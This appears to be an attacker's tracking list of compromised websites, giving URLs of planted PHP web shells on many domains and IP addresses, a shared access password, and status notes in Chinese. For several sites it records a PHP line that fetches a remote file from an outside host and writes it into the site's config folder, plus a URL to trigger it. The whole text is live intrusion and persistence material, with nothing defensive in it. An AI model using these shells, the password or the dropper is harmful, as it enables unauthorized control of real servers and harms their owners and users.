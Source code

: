 http://www.lgms56.cn/skin/images/m1.php |mmk123 |  114.55.130.128
代码更新：0608 ✅
http://www.lgms56.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.lgms56.cn/config/httpd.php?d=up

http://121.36.109.42/template/template_init.php |mmk123 
代码更新：0608 ✅
http://121.36.109.42/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://121.36.109.42/config/httpd.php?d=up

http://47.106.117.124/template/template_init.php |mmk123 | 连接不上

http://114.55.130.128:9090/template/template_init.php |mmk123 
代码更新：0608 ✅
http://114.55.130.128:9090/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://114.55.130.128:9090/config/httpd.php?d=up

http://yqyb.fun/template/template_init.php |mmk123 |tq | 154.212.146.242 | 连接不上
http://cablewiresfactory.com/template/template_init.php |mmk123 |  216.224.127.219
http://nn.gxguilong88.com//nnrx/templates/wap/images/js/mr1.php |mmk123 |rsa   提取 | 103.66.219.250
http://nn.gxguilong88.com/index_bk.php |mmk123 |rsa | 103.66.219.250
http://www.juheyuanjing.com/template/template_init.php |mmk123 |RSA 编码器--提取 | 129.227.60.74

http://cs.jsmbr.top/template/template_init.php |mmk123 |  43.129.26.37
代码更新：0608 ✅
http://cs.jsmbr.top/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://cs.jsmbr.top/config/httpd.php?d=up

http://43.132.185.27/template/template_init.php |mmk123 
代码更新：0608 ✅
http://43.132.185.27/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://43.132.185.27/config/httpd.php?d=up

http://by.yanchengquan.com/template/template_init.php |mmk123 |提取 | 182.16.47.67 | 连接不上
https://www.whdryer.com/template/index_bk.php ->big |wso |  218.247.87.158
https://www.tongcheng99.cn/10249_10245/m1.php? |mmk123 |_/www/wwwroot/course/dist/  i-> hhgedu.cn | 8.140.244.215 | 没看懂
https://www.tongcheng99.cn/10249_10245/m1.php |mmk123 |  8.140.244.215
https://hnsjtjsxh.cn/static/upload/excel/m1.php |mmk123 |  8.140.244.215
